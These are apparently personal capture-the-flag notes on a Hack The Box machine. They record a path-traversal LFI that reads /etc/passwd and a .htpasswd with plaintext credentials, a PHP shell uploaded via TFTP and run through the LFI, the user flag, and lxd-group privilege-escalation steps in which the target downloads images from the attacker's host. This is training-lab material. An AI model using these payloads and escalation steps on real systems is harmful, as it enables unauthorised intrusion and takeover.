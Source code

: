 - Open ports
	- TCP
	  
	  ```
	  80/tcp open  http
	  ```
	- UDP
	  id:: 655238b7-09f8-454b-ba4a-40a2d4b29455
	  
	  ```
	  68/udp open|filtered dhcpc
	  69/udp open|filtered tftp
	  ```
- Finding
	- LFI at `http://10.129.38.202/?file=`
	  id:: 655238e3-68b6-42e6-9ec4-6edf9f86c35e
	- OS usernames
	  *Fetched from `http://10.129.38.202/?file=../../../../../../../../etc/passwd`*
	  ```
	  # Only list the most interesting ones
	  root
	  [...]
	  backup
	  mike
	  tftp
	  [...]
	  ```
	- CANCELED Tested RFI but didn't work
	- Try to use `gobuster` to search for known dotfiles in `/home/mike`
	  *Used this dotfiles oriented [wordlist](https://github.com/Karanxa/Bug-Bounty-Wordlists/blob/main/dotfiles.txt)*.
	  ```bash
	  > gobuster fuzz -u "http://10.129.38.202/?file=../../../../../../../../home/mike/FUZZ" -w wordlist-dotfiles.txt --exclude-length 0
	  [...]
	  Found: [Status=200] [Length=15] [Word=.bash_profile] http://10.129.38.202/?file=../../../../../../../../home/mike/.bash_profile
	  Found: [Status=200] [Length=220] [Word=.bash_logout] http://10.129.38.202/?file=../../../../../../../../home/mike/.bash_logout
	  Found: [Status=200] [Length=3771] [Word=.bashrc] http://10.129.38.202/?file=../../../../../../../../home/mike/.bashrc
	  Found: [Status=200] [Length=807] [Word=.profile] http://10.129.38.202/?file=../../../../../../../../home/mike/.profile
	  ```
	  No interesting files found.
	- Found an interesting `.htpasswd` file
	  id:: 65523a47-5070-40a1-af56-9b48b9b351b4
	  
	  ```bash
	  > curl "http://10.129.38.202/?file=../../../../../../../../var/www/html/.htpasswd"
	  mike:Sheffield19
	  ```
	  ===TODO===: Search for a wordlist optimized for webservers file and use it with `gobuster`.
	  #+BEGIN_CAUTION
	  mike:Sheffield19
	  #+END_CAUTION
	  
	  #+BEGIN_TIP
	  I now have the username and password coming from a `.htpasswd` file. Maybe `mike` reuse the same password for his OS user.
	  #+END_TIP
	- I can upload files via [TFTP](logseq://graph/HTB-Notes?block-id=655238b7-09f8-454b-ba4a-40a2d4b29455) and execute php file via the [LFI](logseq://graph/HTB-Notes?block-id=655238e3-68b6-42e6-9ec4-6edf9f86c35e).
		- Upload a php shell via TFTP.
		- Execute the php shell with the LFI.
		- ```bash
		  > id
		  uid=33(www-data) gid=33(www-data) groups=33(www-data)
		  > www-data@included:/$ su mike
		  Password: Sheffield19
		  > id
		  uid=1000(mike) gid=1000(mike) groups=1000(mike),108(lxd)
		  ```
	- **User flag** at `/home/mike/user.txt`
		- a56ef91d70cfbf2cdb8f454c006935a1
		  background-color:: green
- ### Privesc
	- The user `mike` is part of the group `lxc(108)`. We can upload an lxc container image to the target machine and start a privileged container to escalate privileges.
		- Prepare the container image in Kali
		  *Download the unified (incus.tar.xz and rootfs.tar.xz) lxc image for alpine from [here](https://images.linuxcontainers.org/images/)*
		  ```bash
		  curl "https://images.linuxcontainers.org/images/alpine/3.15/amd64/default/20231107_13%3A00/incus.tar.xz" -o incus.tar.xz
		  curl "https://images.linuxcontainers.org/images/alpine/3.15/amd64/default/20231107_13%3A00/rootfs.tar.xz" -o rootfs.tar.xz
		  ```
		- Spawn a webserver to later upload those files to the victim machine
		- Import the 
		  From the target machine
		  
		  ```bash
		  # Fetch the alpine image
		  curl "http://10.10.14.147:8000/alpine.tar.xz" -o alpine.tar.xz
		  curl "http://10.10.14.147:8000/rootfs.tar.xz" -o rootfs.tar.xz
		  # Import it
		  lxc image import incus.tar.xz rootfs.tar.xz --alias alpine
		  # Check if it got imported
		  mike@included:~$ lxc image ls
		  +--------+--------------+--------+------------------------------------------+--------+--------+------------------------------+
		  | ALIAS  | FINGERPRINT  | PUBLIC |               DESCRIPTION                |  ARCH  |  SIZE  |         UPLOAD DATE          |
		  +--------+--------------+--------+------------------------------------------+--------+--------+------------------------------+
		  | alpine | 9bea64510930 | no     | Alpinelinux 3.15 x86_64 (20231107_13:00) | x86_64 | 2.45MB | Nov 12, 2023 at 5:22pm (UTC) |
		  +--------+--------------+--------+------------------------------------------+--------+--------+------------------------------+
		  ```
		-